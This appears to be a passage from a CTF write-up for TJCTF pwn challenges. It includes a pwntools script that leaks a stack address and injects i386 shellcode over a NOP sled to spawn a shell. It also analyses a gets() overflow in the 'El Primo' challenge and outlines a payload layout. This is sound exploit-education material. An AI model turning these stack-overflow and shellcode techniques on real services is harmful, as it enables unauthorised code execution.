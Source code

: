 ```python
r.sendline(payload)  
sleep(1)  
r.recvline() # for remote only  
leak = int(r.recvline().split("tree ")[1].split(" :(")[0].rstrip()) & 0xFFFFFFFF # get leaked address for s buffer  
log.info("leak: " + hex(leak))  
  
r.recv()  
  
payload = "\x90" * 100 + asm(shellcraft.i386.sh()) # setup buffer with shellcode  
#payload += cyclic(412)  
payload += "A" * 128 # padding to control eip  
payload += p32(leak + 0x4) # jump to shellcode which is setup on the stack  
  
log.info("jumping to: " + hex(leak + 4))  
r.sendline(payload)  
r.recvline()  
  
r.interactive()
```

#### El Primo
```
Written by agcdragon

My friend just started playing Brawl Stars and he keeps raging because he can't beat El Primo! Can you help him?

`nc p1.tjctf.org 8011`
```

The following is the main function and it looked similar to OSRS
```c
  char local_30 [32];
  undefined *local_10;
  
  local_10 = &stack0x00000004;
  setbuf(stdout,(char *)0x0);
  setbuf(stdin,(char *)0x0);
  setbuf(stderr,(char *)0x0);
  puts("What\'s my hard counter?");
  printf("hint: %p\n",local_30);
  gets(local_30);
  return 0;
```
Essentially we are given are leak to the local_30 variable and then a gets which gives us a buffer overflow. I wasn't actually able to solve this problem because I kept segfaulting, however after reading this writeup [here](https://ctftime.org/writeup/20726) by b4n4n4s. The problem I was facing became clear. Essentially it is similar to OSRS in that we must write shellcode and then jump to it. The problem is that the gets is in the main function and not it's own side function. This means we need to take extra care to look at the actual assembly behind the function and understand what it is doing. The main difference with OSRS here and what b4n4n4s does in his writuep is that the goal is to set ESP to the address of the shellcode, not EIP. Furthermore, there is some interesting assembly which sets the value of ESP and we must manipulate it. The details in the writeup are pretty good but essentially we find the offset to ECX, write into that the the address of the address we want to jump to. We can use cyclic and gdb to find the offset to ECX is 32 which is what the writeup does. I will not writeup my own solution to this because the writeup does a great job but for my own reference, the final payload should look like this
 ```
offset
hint+offset+4
hint+offset+16
nop sleds
shellcode
```